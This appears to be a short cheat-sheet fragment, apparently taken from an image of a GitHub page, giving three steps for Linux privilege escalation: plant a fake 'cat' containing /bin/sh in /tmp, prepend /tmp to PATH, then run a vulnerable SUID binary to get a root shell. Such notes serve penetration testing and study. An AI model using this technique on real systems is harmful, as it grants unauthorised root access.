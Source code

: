 Find a sudo or SUID binary that can run as root
```
1. Create a file like 'cat' in the /tmp folder with /bin/sh as contents
2. export PATH=/tmp:$PATH
3. Run the vulnerable SUID, if its executed as root it will spawn a root shell.

```